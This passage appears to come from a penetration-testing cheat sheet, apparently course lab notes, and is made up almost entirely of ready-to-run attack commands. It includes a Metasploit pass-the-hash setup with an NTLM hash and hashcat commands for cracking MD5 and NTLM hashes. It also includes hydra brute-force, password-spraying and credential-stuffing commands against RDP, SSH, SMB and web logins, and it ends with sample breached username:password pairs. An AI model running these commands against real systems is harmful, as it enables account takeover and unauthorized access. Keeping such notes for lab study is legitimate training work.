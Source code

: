     unset smbdomain
    set smbpass aad3b435b51404eeaad3b435b51404ee:47f0ca5913c6e70090d7b686afb9e13e
    set rhosts 10.130.10.4,6,21,25,33,44,45
    run
    ```
<br>


# Password Attacks
### hashcat
* linux
    * crack with rule
    ```
    hashcat -m 0 test.hash /usr/share/wordlists/rockyou.txt -r /usr/share/hashcat/rules/rockyou-30000.rule --force
    ```
    * search hash type
    ```
    hashcat --help | grep -i "MD5"
    ```
    * crack ntlm hash
    ```
    hashcat -m 1000 nelly.hash /usr/share/wordlists/rockyou.txt -r /usr/share/hashcat/rules/best64.rule --force
    ```
* windows
    * crack ntlm
    ```
    hashcat.exe -m 1000 web01.hashs rockyou.txt -r rules/best64.rule --force
    ```

### hydra
* linux
    * bruteforce (kali)
    ```
    hydra -l user -P /usr/share/wordlists/rockyou.txt -s 3389 rdp://192.168.0.0
    ```
    * bruteforce (slingshot)
    ```
    hydra -l bgreen -P /opt/passwords/simple.txt 10.130.10.10 ssh
    ```
    * http-post  
    ```
    hydra -l user -P /usr/share/wordlists/rockyou.txt 192.168.0.0 http-post-form "/index.php:fm_usr=user&fm_pwd=^PASS^:Login failed. Invalid"
    ```
    * password spray attack
    ```
    hydra -L /usr/share/wordlists/dirb/others/names.txt -p "password" rdp://192.168.0.0
    ```
    * password spray attack to DC(slingshot)  
    ```
    hydra -L /opt/passwords/facebook-f.last100.txt -p Autumn2023 -m workgroup:{hiboxy} 10.130.10.4 smb2
    ```
    * credential attack(slingshot)  
    ```
    hydra -C /opt/passwords/hiboxy-breach.txt 10.130.10.4 -m workgroup:{hiboxy} smb2
    ```
    ```
    sec560@slingshot:~$ cat /opt/passwords/hiboxy-breach.txt
    abaird:Kstar123
    aschmitt:Annika0410